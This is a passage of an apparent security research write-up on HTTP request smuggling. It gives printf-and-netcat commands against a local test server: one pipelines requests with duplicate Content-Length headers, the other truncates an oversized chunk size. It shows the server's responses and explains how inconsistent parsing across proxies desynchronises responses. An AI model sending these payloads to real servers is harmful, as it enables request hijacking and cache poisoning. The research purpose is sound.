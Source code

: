 And then no rejection. You could say "there's no splitting, we have only one response". The problem in fact is that the only good response is to **reject** the message.
Let's imagine that we use a longer pipeline :

```bash
printf 'GET /?test=4970 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4971 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'GET /?test=4972 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994 | grep "HTTP"

HTTP/1.1 200 OK
HTTP/1.1 200 OK
```

We have **two responses**, but if we go through another actor which also forgot to reject the invalid message, this actor could interpret this pipeline as three queries and expect three responses instead of two (as there's no good way of choosing which Content-Length header is the right one). So this would start a response mix, and that's not good at all.

This is in fact one of the key point of HTTP Smuggling, bif problems always comes when several issues, on several actors, are combined together to generate chaos.

### Chunk size attribute truncation

You may have detected in the previous examples my usage of grep at the end of the command. That's not required, it's just a way to detect faster the number of responses received by the test.

To change things I'll start directly with the test :

```bash
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"

HTTP/1.1 200 OK
HTTP/1.1 200 OK
```
